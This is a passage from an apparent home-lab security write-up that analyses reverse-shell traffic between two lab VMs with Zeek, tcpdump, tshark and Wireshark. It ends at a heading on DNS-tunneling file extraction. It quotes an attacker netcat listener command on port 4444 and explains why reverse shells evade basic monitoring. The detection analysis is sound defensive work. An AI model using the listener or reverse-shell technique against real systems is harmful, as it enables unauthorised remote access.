_**This silent behavior is part of what makes reverse shells so dangerous: they often don’t trigger immediate suspicion unless the user knows what to look for.**_


##
### 📊 Results and Analysis After a Reverse Shell

- Stop Zeek and tcpdump using Ctrl + C once the attack completes.


#### Zeek `conn.log` Analysis:

To analyze the reverse shell attack from the **victim’s network perspective**, we examined the `conn.log` file generated by **Zeek**. This log records all observed connections, including details like IP addresses, ports, protocols, and connection durations.

We used the following command to filter and display only the relevant fields:
  ```
  cat conn.log | zeek-cut id.orig_h id.resp_h id.resp_p service duration
  ```
This extracts: 
- `id.orig_h`: Originating host (source IP) 

- `id.resp_h`: Responding host (destination IP)

- `id.resp_p`: Destination port

- `service`: Protocol/service (e.g., HTTP, SSH) 

- `duration`: Duration of the connection in seconds

#### Interpreting the Output:
 


Here is a sample of the output (shown in the image above):

```
10.0.1.5    168.63.129.16    80     http    0.003514
10.0.1.5    168.63.129.16    32526  http    0.006749
...
10.0.1.5    10.0.1.4         4444   -       389.237034
```

Let's focus on the last line:

| Origin (Victim) | Destination (Attacker) | Port | Service | Duration (s) |
| --------------- | ---------------------- | ---- | ------- | ------------ |
| 10.0.1.5        | 10.0.1.4               | 4444 | -       | 389.237034   |

- `10.0.1.5` is the **victim’s IP address** (Ubuntu VM). 
- `10.0.1.4` is the **attacker’s IP address** (Kali Linux VM).

**Output Analysis:**

- The destination port `4444` matches the port the attacker was listening on using `nc -lvnp 4444`.

- The service field is `-`, meaning Zeek could not identify a known protocol. This is expected in reverse shells because they don’t use standard application-layer protocols like HTTP or SSH.

- The unusually long connection to an internal port (`4444`) with no known service signature is a strong indicator of **malicious behavior**.

- The **duration of 389.2 seconds (over 6 minutes)** stands out compared to all other connections (which last less than a second), indicating a **persistent session** — exactly what a reverse shell creates.

This connection is **a direct result of the reverse shell payload** executed on the victim’s machine, which caused it to connect back to the attacker’s listener.

_As shown here, reverse shells often go undetected as they might not match any known services, making them more likely to bypass basic network monitoring. **This is one of many reasons they pose a significant threat.**_


#### Tcpdump pcap File Analysis: `reverse_shell.pcap`

To gain deeper visibility into the reverse shell activity, we captured the traffic using `tcpdump`. This allows us to inspect the **raw TCP packet exchange** between the victim and the attacker.

To isolate this connection, we can use the following command:
```
tshark -r reverse_shell.pcap -Y "tcp.dstport == 4444 and ip.src == 10.0.1.5"
```
- `tcp.dstport == 4444`: Only show TCP packets sent to port 4444 (the attacker's listener port).

- `ip.src == 10.0.1.5`: Show packets **originating from the victim**'s IP address. 

This filter focuses precisely on the reverse shell session initiated by the victim.

#### Viewing in Wireshark 

Below is a screenshot of the same filtered session, but visualized in **Wireshark** for better clarity:

 

From the screenshot: 

| Time (s) | Source   | Destination | Protocol | Info                      |
| -------- | -------- | ----------- | -------- | ------------------------- |
| …        | 10.0.1.5 | 10.0.1.4    | TCP      | \[SYN], then \[ACK], etc. |
| …        | 10.0.1.5 | 10.0.1.4    | TCP      | \[PSH, ACK]               |
| …        | …        | …           | …        | \[PSH, ACK], \[FIN, ACK]  |


**What the packets show:**
- The connection starts with the **TCP 3-way handshake**:

  - `[SYN]`: Victim attempts to open a connection to the attacker.

  - `[SYN, ACK]` and `[ACK]`: The attacker responds, completing the handshake.

- Then we see multiple `[PSH, ACK]` packets:

  - These indicate **data being pushed** through the reverse shell — the attacker and victim are now communicating via terminal. 

  - The connection ends with `[FIN, ACK]`, signaling the **session termination**.

This confirms the victim initiated a **TCP connection to port 4444**, proving that the reverse shell was outbound.
The communication persisted over multiple packets, indicating an interactive session.

##
### 🕳️ 4. File Extraction via DNS Tunneling using Dns2tcp
##

